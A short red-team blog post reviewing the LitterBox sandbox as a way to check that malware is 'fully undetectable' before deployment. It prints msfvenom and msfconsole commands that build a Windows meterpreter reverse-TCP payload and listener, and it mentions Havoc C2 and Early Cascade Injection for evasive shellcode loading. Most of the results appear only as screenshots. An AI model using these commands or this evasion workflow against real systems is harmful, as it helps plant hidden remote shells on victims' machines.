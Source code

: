 ```yaml
---
layout: post
title: "LitterBox: The Sandbox for Malware Developers"
date: 2025-02-19 00:32:00 +0100
categories:
  - Red Team
  - Malware
author: kuom
---
```

It is important to test malware before deploying it to make sure it is FUD (Fully Undetectable) and it doesn't have any IoC (Indicator of Compromise). <br>
Lately I tried a nice [sandbox](https://github.com/BlackSnufkin/LitterBox). It offers both analysis and dynamic analysis, plus scanning a running process and doing memory analysis at runtime.
### Installation
Recommended on Windows; fairly simple: git clone and execute python litterbox.py.
### Samples
We will try different samples, from a basic meterpreter reverse shell to more advanced payloads.
The focus today is to test how this sandbox react and with different level C2 and different levels of evasiveness.
#### Meterpreter
```
msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 LHOST=<host> LPORT=<ip>
msfconsole
use exploit/multi/handler
set LPORT <port>
set LHOST <ip>
```
![](/assets/Screenshot-2025-01-21-161217.png)
![](/assets/Screenshot-2025-01-21-161301.png)
#### Havoc
Set up an https listener and generate a payload with the following options, this time we wll use the Active process sandbox capabilities
![](/assets/Screenshot-2025-01-21-151238.png)
##### Active Process Inspection
![](/assets/Screenshot-2025-01-21-162202.png)

![](/assets/Screenshot-2025-01-21-162224.png)

!![](/assets/Screenshot-2025-01-21-162318.png)
#### Commercial C2
![](Pasted-image-20250122185634.png)
#### Early Cascade Injection + Meterpreter shellcode
For the last one, I will load the shellcode using the Early Cascade Injection technique. It seems fairly effective regarding evasiveness.
Read more [here](https://www.outflank.nl/blog/2024/10/15/introducing-early-cascade-injection-from-windows-process-creation-to-stealthy-injection/).
![](/assets/Pasted-image-20250122184535.png)
